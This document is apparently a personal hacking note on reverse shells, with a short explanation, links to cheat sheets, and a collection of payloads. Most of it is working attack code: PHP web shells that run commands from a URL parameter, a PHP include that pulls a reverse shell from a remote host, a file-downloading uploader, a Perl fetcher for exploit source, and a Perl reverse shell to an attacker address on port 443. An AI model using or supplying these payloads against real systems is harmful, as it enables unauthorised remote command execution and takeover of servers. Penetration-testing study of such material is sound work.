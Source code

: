 is:: [[note]]
from:: [[hacking]]

# Notes
Most systems are protected by firewalls restricting inbound traffic. A reverse shell bypasses this by making *outbound* connections from the system to a hacker-controlled one.

## Links
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- http://roo7break.co.uk/?p=215
- [Bernardo Dag: Reverse shells one-liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
- [lanmaster53.com](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
	- [http://laudanum.secureideas.net/](http://laudanum.secureideas.net/)
- http://pentestmonkey.net/blog/post-exploitation-without-a-tty
- https://gtfobins.github.io/#+reverse%20shell
- https://snyk.io/blog/reverse-shell-attack/

# Netcat listener
You need a listener for the reverse shell to connect back to. It should be open to the internet (or at least the IPs being attacked).
```bash
nc -lvp 9001
```

# Shell One-liners

```
PHP one-liners

<?php echo system($_GET['cmd']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php include "http://192.168.30.21/php-reverse-shell443.php"; ?>
```

This will execute $cmd in the background (no cmd window) without PHP waiting for it to finish, on both Windows and Unix.
```
<?php
function execInBackground($cmd) {
if (substr(php_uname(), 0, 7) == "Windows"){
pclose(popen("start /B ". $cmd, "r"));
}
else {
exec($cmd . " > _dev_null &");
}
}
?>
```

Short php uploader
```
<?php
try {
ini_set('allow_url_fopen', true);
$data = file_get_contents($_GET['url']);
$handle = fopen($_GET['dest'], "w");
fwrite($handle, $data);
fclose($handle);
echo 'Download succeeded';
} catch (Exception $e) {
echo 'Caught exception: ',  $e->getMessage(), "\n";
}
?>
```

Use perl when no wget
```
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://192.168.30.21/28718.c"); my $where = $ff->fetch() or die $ff->error;'
```

Need to test, but should create a reverse shell in Perl on both Linux and Windows
 # Create reverse shell in background
```
my $pid = fork;
if ($pid == 0) {
my $c=new IO::Socket::INET(PeerAddr=>"192.168.30.21:443");
STDIN->fdopen($c, 'r');
STDOUT->fdopen($c, 'w');
STDERR->fdopen($c, 'w');
while (<>) {
system($_);
}
}
```
